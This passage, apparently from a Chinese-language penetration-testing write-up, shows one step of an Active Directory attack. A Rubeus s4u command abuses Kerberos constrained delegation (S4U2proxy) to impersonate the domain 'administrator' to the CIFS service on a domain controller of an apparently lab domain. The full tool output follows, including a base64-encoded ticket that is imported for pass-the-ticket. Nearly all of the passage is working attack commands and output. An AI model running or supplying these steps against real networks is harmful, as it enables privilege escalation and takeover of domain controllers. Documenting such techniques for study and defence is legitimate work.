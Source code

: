 再通过S4Uproxy

```bash
Rubeus.exe s4u /ticket:ticket.kirbi /msdsspn:"cifs/DC.sunset.com" /tgs:tgs..... /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: S4U

[*] Action: S4U

[*] Loaded a TGS for SUNSET.COM\administrator
[*] Impersonating user 'administrator' to target SPN 'cifs/DC.sunset.com'
[*] Building S4U2proxy request for service: 'cifs/DC.sunset.com'
[*] Using domain controller: DC.sunset.com (192.168.111.167)
[*] Sending S4U2proxy request to domain controller 192.168.111.167:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/DC.sunset.com':
[+] Ticket successfully imported!

      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
      aWZzGw1EQy5zdW5zZXQuY29t
```
